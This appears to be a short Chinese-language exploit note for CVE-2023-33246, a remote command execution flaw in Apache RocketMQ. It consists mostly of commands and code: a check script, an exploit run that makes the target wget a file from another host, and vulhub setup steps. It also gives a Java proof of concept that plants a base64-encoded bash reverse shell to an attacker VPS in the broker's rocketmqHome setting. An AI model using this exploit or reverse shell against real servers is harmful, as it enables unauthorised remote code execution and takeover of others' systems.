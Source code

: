     
    
    python3 check.py --ip 10.10.14.72 --port 9876

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616185553.png)

    
    
    python3 CVE-2023-33246_RocketMQ_RCE_EXPLOIT.py 10.10.14.72 10911 wget  10.10.14.162:8666/1.txt

![]()

使用vulhub直接搭建可能效果好一点儿，否则，不知道为什么在漏洞利用执行上面命令的时候无回显，可能exp的问题

    
    
    cd vulhub/rocketmq/CVE-2023-33246  
    docker-compose up -d

POC如下

    
    
    import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;  
      
    import java.util.Base64;  
    import java.util.Properties;  
      
    public class poc {  
        private static String getCmd(String ip, String port) {  
            String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";  
            String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());  
            return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";  
        }  
      
        public static void main(String[] args) throws Exception {  
            String targetHost = "目的IP";  
            String targetPort = "10911";  
          
            String shellHost = "VPSIP";  
            String shellPort = "Listen-port";  
          
            String targetAddr = String.format("%s:%s",targetHost,targetPort);  
            Properties props = new Properties();  
            props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));  
            props.setProperty("filterServerNums", "1");  
            // 创建 DefaultMQAdminExt 对象并启动  
            DefaultMQAdminExt admin = new DefaultMQAdminExt();  
      
    //        admin.setNamesrvAddr("0.0.0.0:12345");  
            admin.start();  
            // 更新配置⽂件  
            admin.updateBrokerConfig(targetAddr, props);  
            Properties brokerConfig = admin.getBrokerConfig(targetAddr);  
            System.out.println(brokerConfig.getProperty("rocketmqHome"));  
            System.out.println(brokerConfig.getProperty("filterServerNums"));  
            // 关闭 DefaultMQAdminExt 对象  
            admin.shutdown();  
        }  
    }
